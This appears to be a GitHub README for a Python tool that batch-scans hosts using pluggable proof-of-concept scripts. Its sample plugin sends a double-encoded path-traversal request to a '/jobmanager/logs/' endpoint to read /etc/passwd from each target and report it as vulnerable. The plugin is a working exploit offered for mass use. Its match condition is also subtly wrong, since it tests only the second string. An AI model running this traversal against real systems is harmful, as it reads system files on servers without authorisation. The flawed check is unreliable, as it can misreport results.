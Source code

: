 # simple_poc_auto_scanner
A simple python script: automatically import poc scripts for batch scanning of vulnerable hosts  
All you have to do is add your poc script to the plugins folder  
Your poc script should contain the following key functions, the sample format is as follows, to be called by the main scanning script:  
```
def check_vuln(ip,port):
	http_proto = http_proto_judge(ip,port)#获取协议头
	url = "{proto}{ip}:{port}/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd".format(proto=http_proto,ip=ip,port=port)
	try:
		res = requests.get(url=url,headers=headers,timeout=5)
		if "root:x:0:0:" and "daemon:x:1:1:daemon" in res.text:#判断是否存在passwd文件内容
			#print("Vuln exists")
			return True
		else:
			#print("No vuln")
			return False
	except Exception as msg:
		#print(msg)
		return False
```
